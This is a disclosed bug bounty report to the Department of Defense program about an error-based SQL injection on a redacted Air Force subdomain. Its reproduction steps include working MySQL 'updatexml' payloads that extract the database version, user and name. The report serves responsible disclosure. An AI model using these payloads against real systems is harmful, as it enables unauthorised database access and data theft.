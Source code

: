 # SQL Injection on █████

## Report Details
- **Report ID**: 277380
- **URL**: https://hackerone.com/reports/277380
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-10-15T12:16:38.080Z
- **Disclosed**: 2022-05-12T19:57:32.374Z

## Reporter
- **Username**: cdl
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
#### Background:
It looks like the patch for #231338 has been reverted and this subdomain is yet again vulnerable to SQL injection.

### Summary:
An Airforce subdomain is vulnerable to SQL Injection because the application does not produce sufficient validation on user input. This allows an attacker to execute SQL queries.

### Description:
The `███=` parameter on `https://███████/█████████` does not properly sanitize ' characters, allowing an attacker to execute SQL queries!

### Impact

This could potentially expose sensitive information because an attacker could potentially dump the databases on this server!

### Step-by-step Reproduction Instructions

    1.) Open Firefox or any browser
    2.) Visit `https://███████/██████████=' and updatexml(null,concat(0x0a,version()),null)-- -@hackerone.mil`
    3.) You will see the MySQL version in the response => `██████████`

User - `███████`
payload => `https://████████/████████████=' and updatexml(null,concat(0x0a,user()),null)-- -@hackerone.mil`

Database - `████`
payload => `https://██████/█████████████=%27%20and%20updatexml(null,concat(0x0a,database()),null)--%20-@hackerone.mil`

██████
### Suggested Mitigation/Remediation Actions

Sanitize input!

Thanks!
- Corben Douglas [@sxcurity](https://twitter.com/sxcurity)


## Attachments
No attachments
